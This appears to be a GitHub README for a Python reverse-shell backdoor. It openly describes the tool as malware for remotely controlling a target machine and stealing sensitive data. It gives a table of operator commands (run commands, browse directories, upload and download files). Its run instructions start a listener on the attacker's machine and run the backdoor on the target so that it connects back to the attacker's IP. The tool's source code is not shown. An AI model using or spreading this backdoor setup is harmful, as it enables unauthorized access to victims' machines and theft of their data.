 # Reverse Backdoor

## Description
A backdoor is program/malware which gives us remote access to target device. This tool is for reverse shell access, which allows us remotely control target machine, crawl in its system, steal sensitive data, execute commands, upload or download files. 

<p align="center">
  <img src="https://user-images.githubusercontent.com/53910160/231488656-b244641b-80e1-477e-9e02-3afa7754af9d.png" />
</p>

## Usage

| Command | Description |
| --- | --- |
| `[command]` | Executes command on target machine |
| `cd [dir]`  | Change directories and crawl in target system |
| `download [file]` | Download files from target machine to yours |
| `upload [file]` | Upload files from your to target machine |

I am going to add more advanced features later :)

### Requirements
Python v3

## Run

```sh
# On your machine:
$ python listener.py --ip <your_ip> --port <port_number>

# On target machine:
$ python reverse_backdoor.py --ip <your_ip> --port <same_port>
```

## Manual

Listener:
![listener](https://user-images.githubusercontent.com/53910160/231488439-0ff14e60-61ca-4403-8a1f-3e04d1f92e60.png)

Reverse Backdoor:
![reverse_backdoor](https://user-images.githubusercontent.com/53910160/231488522-f8782e1f-c296-4741-8a9f-46ea59be1fa0.png)
